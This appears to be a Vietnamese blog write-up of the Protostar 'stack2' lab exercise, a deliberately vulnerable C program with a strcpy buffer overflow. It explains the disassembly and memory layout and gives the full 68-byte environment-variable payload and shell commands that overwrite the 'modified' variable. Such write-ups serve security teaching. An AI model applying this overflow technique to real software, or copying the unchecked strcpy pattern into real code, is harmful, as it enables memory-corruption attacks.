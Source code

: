 ```yaml
---
layout: post
title: stack2
---
```

stack2 cũng tương tự như stack0 và stack1.
Trong bài này, chúng ta tiếp tục sử dụng phương thức lưu đè vùng bộ nhớ của biến khác bằng hàm `strcpy`.
Source code của stack2 như sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Khi disassemble hàm `main`, ta được đoạn chương trình sau:
```nasm
push   ebp
mov    ebp,esp
and    esp,0xfffffff0
sub    esp,0x60
mov    DWORD PTR [esp],0x80485e0
call   0x804837c <getenv@plt>
mov    DWORD PTR [esp+0x5c],eax
cmp    DWORD PTR [esp+0x5c],0x0
jne    0x80484c8 <main+52>
mov    DWORD PTR [esp+0x4],0x80485e8
mov    DWORD PTR [esp],0x1
call   0x80483bc <errx@plt>
mov    DWORD PTR [esp+0x58],0x0
mov    eax,DWORD PTR [esp+0x5c]
mov    DWORD PTR [esp+0x4],eax
lea    eax,[esp+0x18]
mov    DWORD PTR [esp],eax
call   0x804839c <strcpy@plt>
mov    eax,DWORD PTR [esp+0x58]
cmp    eax,0xd0a0d0a
jne    0x80484fd <main+105>
mov    DWORD PTR [esp],0x8048618
call   0x80483cc <puts@plt>
jmp    0x8048512 <main+126>
mov    edx,DWORD PTR [esp+0x58]
mov    eax,0x8048641
mov    DWORD PTR [esp+0x4],edx
mov    DWORD PTR [esp],eax
call   0x80483ac <printf@plt>
leave
ret
```

Biến `variable` lấy giá trị của environment variable có tên `"GREENIE"`.
Sau đó, giá trị này được copy sang cho `buffer` qua hàm `strcpy`.
Rõ ràng, tương tự như 2 bài trước, nếu giá trị của `variable` lớn hơn 64 byte thì khi copy sang `buffer` sẽ bị tràn sang vùng nhớ của biến khác.
Cụ thể, biến `modified` chiếm 4 byte, bắt đầu từ `esp + 0x58`, còn biến `buffer` chiếm 64 byte bộ nhớ từ `esp + 0x18` đến `esp + 0x57`.
`variable` được lưu bắt đầu từ địa chỉ `esp + 0x5c`. Lưu ý, `variable` có dạng pointer, nên giá trị dùng để copy sang `buffer` thật sự nằm ở vùng nhớ có địa chỉ lưu trong `variable`.

Để dễ tưởng tượng, sau đây là 96 byte bộ nhớ bắt đầu từ địa chỉ `esp`, trước khi `variable` nhận giá trị từ environment variable.
Trong ví dụ này, environment variable có giá trị là `"hello"`, tương đương với chuỗi byte `0x68` `0x65` `0x6c` `0x6c` `0x6f`.
Phân biệt theo màu: <span style="color:aqua">buffer</span>, <span style="color:orangered">modified</span>, và <span style="color:yellow">variable</span>.
<pre class="memory">
0xbffff730:     0x080485e0      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff740:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff750:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff768</span>      <span style="color:aqua">0x08048358</span>
0xbffff760:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff798</span>      <span style="color:aqua">0x08048549</span>
0xbffff770:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048530</span>      <span style="color:aqua">0xbffff798</span>
0xbffff780:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:orangered">0x00000000</span>      <span style="color:yellow">0xbffff9ec</span>
...
<span style="color:yellow">0xbffff9ec</span>:      "hello"
</pre>

<pre class="memory">
0xbffff730:     0xbffff748      0xbffff9ec      0xb7fff8f8      0xb7f0186e
0xbffff740:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0x6c6c6568</span>      <span style="color:aqua">0xb7ea006f</span>
0xbffff750:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff768</span>      <span style="color:aqua">0x08048358</span>
0xbffff760:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff798</span>      <span style="color:aqua">0x08048549</span>
0xbffff770:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048530</span>      <span style="color:aqua">0xbffff798</span>
0xbffff780:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:orangered">0x00000000</span>      <span style="color:yellow">0xbffff9ec</span>
...
<span style="color:yellow">0xbffff9ec</span>:     0x6c6c6568      0x4f4c006f      0x4d414e47      0x73753d45
</pre>

Để exploit được chương trình, ta sẽ gán 68 byte giá trị cho environment variable `"GREENIE"` là `"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\x0a\x0d\x0a\x0d"`.
Giá trị của `modified` sẽ được sửa thành `0x0d0a0d0a`.
Sau đây là bộ nhớ sau `strcpy`.
(`esp` có thể thay đổi tùy theo environment variable `"GREENIE"` thay đổi, nhưng các offset từ `esp` để tìm ra đúng biến thì giữ nguyên.)

<pre class="memory">
0xbffff6f0:     0xbffff708      0xbffff9ad      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0x41414141</span>      <span style="color:aqua">0x42424242</span>
0xbffff710:     <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>      <span style="color:aqua">0x46464646</span>
0xbffff720:     <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>      <span style="color:aqua">0x32323232</span>
0xbffff730:     <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>      <span style="color:aqua">0x36363636</span>
0xbffff740:     <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x0d0a0d0a</span>      <span style="color:yellow">0xbffff9</span>00
...
<span style="color:yellow">0xbffff9ad</span>:      "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\n\r\n\r"
</pre>

Cũng lưu ý thêm, biến `variable` có 1 byte đầu tiên bị ảnh hưởng do chuỗi nhập vào là kiểu null-terminated.
Giá trị mong đợi của nó là `0xbffff9ad`, thay vì `0xbffff900`.

## Ref
```bash
user@protostar:~$ export GREENIE=$'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\x0a\x0d\x0a\x0d'
user@protostar:~$ stack2
you have correctly modified the variable
```
